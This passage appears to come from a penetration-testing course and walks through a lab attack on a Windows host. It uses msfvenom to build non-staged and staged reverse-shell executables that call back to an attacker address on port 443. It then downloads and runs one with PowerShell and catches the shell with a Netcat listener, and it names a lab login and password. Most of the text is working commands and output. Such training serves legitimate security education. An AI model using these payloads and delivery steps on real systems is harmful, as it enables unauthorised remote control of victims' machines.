 > Listing 46 - Creating a Windows executable with a reverse shell payload

Listing 46 shows that we can choose between a staged and non-staged payload. For this example, we'll use the non-staged payload first.

Now, let's use the **\-p** flag to set the payload, set **LHOST** and **LPORT** to assign the host and port for the reverse connection, **\-f** to set the output format (**exe** in this case), and **\-o** to specify the output file name:

```
kali@kali:~$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: nonstaged.exe
```

> Listing 47 - Creating a Windows executable with a non-staged TCP reverse shell payload

Now that we have created the malicious binary file, let's use it. For this, we start a Netcat listener on port 443, Python3 web server on port 80, and connect to BRUTE2 via RDP with the user *justin* and password *SuperS3cure1337#*. Once we've connected over RDP, we can start PowerShell to transfer the file and execute it.

```
PS C:\Users\justin> iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe

PS C:\Users\justin> .\nonstaged.exe
```

> Listing 48 - Download non-staged payload binary and execute it

Once we executed the binary file, we'll receive an incoming reverse shell on our Netcat listener.

```
kali@kali:~$ nc -nvlp 443 
listening on [any] 443 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.202] 50822
Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Users\justin>
```

> Listing 49 - Incoming reverse shell from non-staged Windows binary

Now, let's use a staged payload to do the same. For this, we'll again use msfvenom to create a Windows binary with a staged TCP reverse shell payload.

```
kali@kali:~$ msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o staged.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: staged.exe
```
